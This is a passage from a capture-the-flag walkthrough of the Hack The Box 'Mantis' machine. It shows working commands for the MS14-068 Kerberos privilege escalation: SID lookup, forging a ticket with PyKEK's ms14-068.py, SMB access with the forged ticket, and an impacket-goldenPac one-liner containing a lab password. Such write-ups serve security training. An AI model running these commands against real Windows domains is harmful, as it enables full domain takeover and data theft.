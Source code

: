 lookupname will reveal the SID

```sh
lookupnames james
```

![](/Windows/Windows-Hard/Mantis/Screenshots/lookupname.png)

Once the SID has been obtained, it is possible to run PyKEK to generate a Kerberos ticket by
running the command i was able to find a copy of `ms14-068.py` [here-PyKEK](https://github.com/mubix/pykek), and I’ll run it just like the help suggests:

```sh
python2 ms14-068.py -u james@htb.local -s S-1-5-21-4220043660-4019079961-2895681657-1103 -d mantis.htb.local
```


```sh
 cp TGT_james@htb.local.ccache /tmp/krb5cc_0
```

```
smbclient -W htb.local //mantis/c$ -k
```

and now dir and get flags from `get Users\james\desktop\user.txt` and `get Users\administrator\desktop\root.txt`

### OR

The [MS14-068](https://www.trustedsec.com/blog/ms14-068-full-compromise-step-step/) exploit targets Kerberos and can be used to forge Kerberos tickets using domain user permissions. Lucky for us, [impacket-goldenPac](https://github.com/SecureAuthCorp/impacket/blob/master/examples/goldenPac.py) can be used to automatically exploit the vulnerability.Impacket has a script

```sh
impacket-goldenPac 'htb.local/james:J@m3s_P@ssW0rd!@mantis'
```

![](/Windows/Windows-Hard/Mantis/Screenshots/goldenpac.png)
